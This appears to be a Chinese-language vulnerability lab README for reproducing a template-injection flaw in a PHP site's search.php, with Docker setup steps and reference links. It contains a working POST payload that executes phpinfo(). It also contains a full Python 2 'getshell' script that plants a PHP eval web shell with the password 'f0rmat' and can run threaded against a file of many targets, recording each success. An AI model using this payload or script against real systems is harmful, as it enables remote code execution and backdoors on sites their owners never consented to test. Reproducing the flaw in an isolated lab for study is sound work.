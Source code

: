 ## 环境构建
```
docker-compose build 
docker-compose up -d
```


## 漏洞介绍

### Payload

url:http://127.0.0.1:8002/search.php
POST: searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&ver=OST[9]))&9[]=ph&9[]=pinfo();

![](luffy1.png)


getshell脚本
`
import sys
import requests
import threading
def exploit(target):
    if sys.argv[1]== "-f":
        target=target[0]
    url=target+"/search.php"
    payload = "fwrite(fopen('shell.php','w'),'<?php @eval($_POST[f0rmat])?>f0rmat');"
    data={
        "searchtype":"5",
        "searchword":"{if{searchpage:year}",
        "year":":e{searchpage:area}}",
        "area":"v{searchpage:letter}",
        "letter":"al{searchpage:lang}",
        "yuyan":"(join{searchpage:jq}",
        "jq":"($_P{searchpage:ver}",
        "ver":"OST[9]))",
        "9[]":payload,
    }

    shell = target+'/shell.php'
    try:
        requests.post(url,data=data)
        verify = requests.get(shell, timeout=3)
        if "f0rmat" in verify.content:
            print 'Write success,shell url:',shell,'pass:f0rmat'
            with open("success.txt","a+") as f:
                f.write(shell+'  pass:f0rmat'+"\n")
        else:
            print target,'Write failure!'
    except Exception, e:
        print e
def main():
    if len(sys.argv)<3:
        print 'python check_order.py.py -h target/-f target-file'
    else:
        if sys.argv[1] == "-h":
            exploit(sys.argv[2])
        elif sys.argv[1] == "-f":
            with open(sys.argv[2], "r") as f:
                b = f.readlines()
                for i in xrange(len(b)):
                    if not b[i] == "\n":
                        threading.Thread(target=exploit, args=(b[i].split(),)).start()

if __name__ == '__main__':
    main()
`

![](luffy2.png)


## 漏洞连接
[链接一](https://bbs.ichunqiu.com/thread-35140-1-5.html)
[链接二](https://www.cnblogs.com/sqyysec/p/7765703.html)


